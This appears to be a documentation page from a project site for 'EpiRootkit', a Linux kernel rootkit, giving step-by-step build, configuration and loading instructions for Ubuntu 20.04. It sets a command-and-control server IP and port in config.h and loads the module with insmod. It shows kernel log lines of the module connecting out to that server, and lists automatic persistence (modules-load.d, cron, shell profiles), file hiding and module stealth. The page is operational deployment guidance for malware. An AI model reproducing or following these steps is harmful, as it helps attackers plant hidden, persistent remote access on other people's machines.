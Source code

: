 ```yaml
---
title: "Build & Deployment"
description: "How to build and load EpiRootkit on Ubuntu 20.04"
icon: "code"
date: "2025-05-07T00:44:31+01:00"
lastmod: "2025-05-25T00:00:00+01:00"
draft: false
toc: true
weight: 43
---
```


# Build & Deployment

How to build and deploy EpiRootkit on Ubuntu 20.04 with kernel 5.4.0.

## Requirements

### System
- **OS**: Ubuntu 20.04 LTS
- **Kernel**: 5.4.0-* (check with `uname -r`)
- **Architecture**: x86_64

### Dependencies
```bash
sudo apt update
sudo apt install -y build-essential linux-headers-$(uname -r)
```

## Build Process

### 1. Navigate to Rootkit Directory
```bash
cd rootkit
```

### 2. Build the Module
```bash
make clean && make
```

**Expected output:**
```
make -C /lib/modules/5.4.0-74-generic/build M=/path/to/rootkit modules
  CC [M]  /path/to/rootkit/core/main.o
  CC [M]  /path/to/rootkit/commands/commands.o
  CC [M]  /path/to/rootkit/commands/auth_commands.o
  CC [M]  /path/to/rootkit/commands/exec_commands.o
  CC [M]  /path/to/rootkit/commands/file_commands.o
  CC [M]  /path/to/rootkit/commands/status_commands.o
  CC [M]  /path/to/rootkit/commands/stealth_commands.o
  CC [M]  /path/to/rootkit/network/connection.o
  CC [M]  /path/to/rootkit/network/socket.o
  CC [M]  /path/to/rootkit/network/keepalive.o
  CC [M]  /path/to/rootkit/stealth/stealth.o
  CC [M]  /path/to/rootkit/persistence/persistence.o
  CC [M]  /path/to/rootkit/security/auth.o
  CC [M]  /path/to/rootkit/utils/utils.o
  LD [M]  /path/to/rootkit/epirootkit.ko
```

### 3. Verify Build
```bash
ls -la epirootkit.ko
file epirootkit.ko
```

Should show: `ELF 64-bit LSB relocatable, x86-64`

## Configuration

### Network Settings
Edit `rootkit/core/config.h` before building:

```c
#define C2_SERVER_IP "192.168.64.1"    // Your C2 server IP
#define C2_SERVER_PORT 4444             // C2 server port
```

### Feature Settings
```c
#define ENABLE_ENCRYPTION 0      // Encryption disabled
#define ENABLE_PERSISTENCE 1     // Auto-install persistence
#define ENABLE_FILE_HIDING 1     // Hide files with prefixes
```

## Loading the Module

### Load Rootkit
```bash
sudo insmod epirootkit.ko
```

### Verify Loading
```bash
# Check if loaded (may be hidden if stealth enabled)
lsmod | grep epirootkit

# Check kernel messages
dmesg | tail -10
```

**Expected kernel messages:**
```
[  123.456] EpiRootkit: Starting initialization (v1.0.0)
[  123.457] EpiRootkit: Connection module initialized
[  123.458] EpiRootkit: Stealth module initialized
[  123.459] EpiRootkit: Persistence module initialized
[  123.460] EpiRootkit: All subsystems initialized successfully
[  123.461] EpiRootkit: Attempting connection to 192.168.64.1:4444
```

## Automatic Features

When the module loads, it automatically:

1. **Connects to C2 server** (if running)
2. **Installs persistence** (modules-load.d, cron, shell profiles)
3. **Enables file hiding** (hides files with specific prefixes)
4. **Starts keepalive system** (60-second ping/pong)

## Module Management

### Unload Module
Must unhide the module from kernel.
```bash
sudo make remove # Or simply sudo rmmod epirootkit
```

### Remove Persistence
```bash
# Remove all persistence mechanisms
sudo rm -f /etc/modules-load.d/epirootkit.conf
sudo rm -f /etc/cron.d/epirootkit
sudo rm -f /etc/profile.d/epirootkit.sh
```

### Clean Build
```bash
make clean
```

## Next Steps

1. **[Start C2 Server](../03-attacking-program/overview.md)**: Set up command & control
2. **[Authentication](./connection-authentication.md)**: Connect and authenticate
3. **[Use Commands](./features/command-execution.md)**: Execute remote commands

